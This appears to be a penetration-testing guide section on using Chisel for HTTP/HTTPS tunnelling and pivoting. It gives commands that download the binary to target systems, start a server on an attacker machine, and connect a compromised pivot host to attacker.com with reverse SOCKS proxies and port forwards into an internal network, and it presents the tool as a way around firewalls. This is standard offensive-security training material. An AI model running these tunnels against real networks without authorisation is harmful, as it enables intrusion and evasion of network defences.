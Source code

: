 ## Chisel for HTTP/HTTPS Tunneling

### **Chisel Setup and Basic Usage**

**What Chisel is:** Fast TCP/UDP tunnel over HTTP, secured via SSH. Provides SOCKS proxy and port forwarding capabilities with minimal footprint and cross-platform support.

**Why Chisel is excellent for pivoting:** Works through HTTP proxies, encrypted communication, single binary deployment, supports both client and server modes, and bypasses many firewall restrictions.

**When to use Chisel:** Restrictive network environments, when SSH is not available, through HTTP proxies, and for rapid deployment scenarios.

```bash
# Chisel installation and setup
# Download from GitHub releases: https://github.com/jpillora/chisel/releases
# Available for Linux, Windows, macOS, ARM

# Transfer chisel to target systems
# Linux
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
chmod +x chisel_1.8.1_linux_amd64
mv chisel_1.8.1_linux_amd64 chisel

# Windows (PowerShell)
Invoke-WebRequest -Uri "https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_windows_amd64.exe" -OutFile "chisel.exe"

# Basic Chisel server setup (on attacker machine)
./chisel server --port 8080 --reverse       # Server with reverse tunneling
./chisel server --port 8080 --auth user:pass # Server with authentication
./chisel server --port 443 --key server.key --cert server.crt # HTTPS server

# Basic Chisel client connection (on pivot machine)
./chisel client attacker.com:8080 R:1080:socks
# R: Reverse tunnel
# 1080: SOCKS proxy port on server
# socks: Create SOCKS proxy

# Chisel port forwarding examples
# Local port forwarding (client -> server)
./chisel client attacker.com:8080 8080:192.168.1.100:80
# Forward attacker:8080 -> 192.168.1.100:80 through pivot

# Remote port forwarding (server -> client)
./chisel client attacker.com:8080 R:3389:192.168.1.100:3389
# Forward server:3389 -> 192.168.1.100:3389 through pivot

# SOCKS proxy setup
# Server side (attacker)
./chisel server --port 1080 --reverse --socks5

# Client side (pivot)
./chisel client attacker.com:1080 R:socks
# Creates SOCKS proxy on attacker machine

# Why Chisel excels in restrictive environments:
# - HTTP/HTTPS protocol tunneling
# - Works through corporate proxies
# - Minimal binary footprint
# - Cross-platform compatibility
# - Built-in authentication and encryption
```